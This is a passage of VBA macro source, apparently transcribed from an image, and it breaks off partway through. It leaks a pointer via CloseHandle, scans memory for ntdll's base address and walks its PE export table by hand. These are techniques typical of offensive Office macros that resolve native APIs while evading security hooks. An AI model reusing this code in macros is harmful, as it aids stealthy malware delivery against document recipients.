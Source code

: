 ```vb
        Call CopyMemory(VarPtr(tmpBuffer(0)), pointerToString, byteCount)
    End If

    ' Convert (ANSI) buffer to VBA string
    retVal = StrConv(tmpBuffer, vbUnicode)

    StringFromPointerA = retVal

End Function

Function leak() As LongPtr
    ret = CloseHandle(-1)
    Dim funcLeak As LongPtr
    Call CopyMemory(VarPtr(funcLeak), VarPtr(ret) - 16, 8)
    leak = funcLeak
End Function

Function findntdll() As LongPtr
    Dim check As LongPtr
    Dim leaked As LongPtr
    Dim i As LongPtr
    
    leaked = leak()
    For i = 0 To (leaked - 8)
        Call CopyMemory(VarPtr(check), leaked - i, 8)
        ' 12894362189 == 00007FF889590000  4D 5A 90 00 03 00 00 00 MZ....
        If check = 12894362189# Then
            findntdll = leaked - i
            Exit For
        End If
    Next i
End Function

Private Function walkExports(dllbase As LongPtr, export As String)
    Dim DosHeader As IMAGE_DOS_HEADER
    Dim pNtHeaders As LongPtr
    Dim ntHeader As IMAGE_NT_HEADERS
    Dim DataDirectory As IMAGE_DATA_DIRECTORY
    Dim IMAGE_EXPORT_DIRECTORY As LongPtr 'http://pinvoke.net/default.aspx/Structures.IMAGE_EXPORT_DIRECTORY
    Dim NumberOfFunctions As Long
    Dim NumberOfNames As Long
    Dim FunctionsPtr As LongPtr
    Dim NamesPtr As LongPtr
    Dim OrdinalsPtr As LongPtr
    Dim FunctionsOffset As Long
    Dim NamesOffset As Long
    Dim OrdinalsOffset As Long
    Dim OrdinalBase As Long

    ' Get DOS Header
    Call CopyMemory(VarPtr(DosHeader), dllbase, LenB(DosHeader))
    ' Get NtHeader
    pNtHeaders = dllbase + DosHeader.e_lfanew
    Call CopyMemory(VarPtr(ntHeader), pNtHeaders, LenB(ntHeader))
    
    IMAGE_EXPORT_DIRECTORY = ntHeader.OptionalHeader.DataDirectory(0).VirtualAddress + dllbase
    
    'Number of Functions pIMAGE_EXPORT_DIRECTORY + 0x14
    Call CopyMemory(VarPtr(NumberOfFunctions), IMAGE_EXPORT_DIRECTORY + &H14, LenB(NumberOfFunctions))
    
    'Number of Names pIMAGE_EXPORT_DIRECTORY + 0x18
```